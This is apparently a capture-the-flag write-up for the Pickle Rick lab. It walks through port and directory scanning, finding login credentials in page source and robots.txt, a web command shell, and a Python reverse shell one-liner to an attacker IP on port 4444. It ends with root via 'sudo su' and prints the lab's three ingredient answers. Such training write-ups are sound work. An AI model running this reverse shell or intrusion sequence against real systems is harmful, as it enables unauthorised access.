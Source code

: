 # Pickle Rick CTF Walkthrough

This is a walkthrough for the Pickle Rick CTF challenge. The goal was to help Rick by finding three secret ingredients on the vulnerable web server.
---

![](https://maxschmittlaurin.github.io/assets/rick.PNG)

---

## 1. Enumeration

### Nmap Scan
```bash
nmap -sC -sV -oN nmap.txt <TARGET_IP>
```

### Gobuster Scan
```bash
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirb/big.txt
```

**Discovered:**
- `/robots.txt`
- `/login.php`

---

## 2. Information Gathering

- Navigated to the IP in browser.
- Inspected page source and found:
  - Username: `R1ckRul3s`
- Accessed /robots.txt and found:
  - Password: `wubbalubbadubdub`

---

## 3. Login and Initial Shell Access

- Used credentials to log in to `/login.php`:
  - **Username**: `R1ckRul3s`
  - **Password**: `wubbalubbadubdub`
- Upon login, got a basic web-based command shell.

---

## 4. File Discovery

- Ran `ls` and `grep . <file name>` (cat and head command was blocked)
-  found the first secret ingredient:
  ```
  1st Ingredient: Mr. Meeseeks Hair
  ```

---

## 5. Python Availability Check

- Checked for Python3:
  ```bash
  python3 -c 'print("hello")'
  ```
- Confirmed Python3 was available.

---

## 6. Python Reverse Shell

Started a netcat listener on my machine:
```bash
nc -lvnp 4444
```

Executed the reverse shell command via web shell:
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```

- Got a reverse shell back.

---

## 7. Privilege Escalation

- Escalated to root without any advanced techniques.
- just by typing `sudo su`

---

## 8. Ingredients Collection

- Found the second ingredient in `/home/rick`:
  ```
  2nd Ingredient: 1 Jerry Tear
  ```

- Found the final ingredient in `/root`:
  ```
  3rd Ingredient: Fleeb Juice
  ```

---

## Conclusion

Successfully exploited the web server and helped Rick by collecting all three ingredients.

Mission accomplished.
